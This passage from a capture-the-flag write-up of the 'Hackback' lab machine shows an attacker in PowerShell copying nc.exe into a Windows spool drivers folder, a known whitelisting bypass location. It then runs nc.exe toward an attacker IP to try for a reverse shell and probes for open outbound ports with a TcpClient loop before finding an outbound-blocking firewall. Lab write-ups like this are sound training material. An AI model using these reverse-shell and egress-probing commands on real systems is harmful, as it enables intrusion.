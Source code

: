 

    PS hackback\simple@HACKBACK Documents> move nc.exe \windows\system32\spool\drivers\color\nc.exe
    PS hackback\simple@HACKBACK Documents> \windows\system32\spool\drivers\color\nc.exe 10.10.14.14 443



#### Outbound Network

I made a couple attempts to connect back to my computer, and everything
failed. Eventually, I opened up `tcpdump -i tun0 -n tcp port not 80`
(with the port 80 filter to get rid of the `reGeorge` traffic), and ran
a loop in my terminal. I didn't bother to make it look pretty, but it
was built around this command:



    $socket = new-object System.Net.Sockets.TcpClient("10.10.14.14", 443); if($socket.Connected) { echo "out on $i"; $socket.Close()}
    Exception calling ".ctor" with "2" argument(s): "An attempt was made to access a socket in a way forbidden by its access permissions 10.10.14.14:443"
    At line:1 char:11
    + $socket = new-object System.Net.Sockets.TcpClient("10.10.14.14", 443); ...
    +           ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : InvalidOperation: (:) [New-Object], MethodInvocationException
        + FullyQualifiedErrorId : ConstructorInvokedThrowException,Microsoft.PowerShell.Commands.NewObjectCommand



No matter what port I tried, I couldn't find anything that could connect
out. At some point, I checked the firewall:



    PS hackback\simple@HACKBACK Documents> cmd /c "netsh advfirewall show currentprofile"

    Public Profile Settings: 
    ----------------------------------------------------------------------
    State                                 ON
    Firewall Policy                       BlockInbound,BlockOutbound
    LocalFirewallRules                    N/A (GPO-store only)
    LocalConSecRules                      N/A (GPO-store only)
    InboundUserNotification               Disable
    RemoteManagement                      Not Configured
    UnicastResponseToMulticast            Enable

    Logging:
    LogAllowedConnections                 Disable
    LogDroppedConnections                 Disable
    FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
    MaxFileSize                           4096

    Ok.



The default was to block in and out. What rules were in place? Only two.
Allow ping and three web ports in:
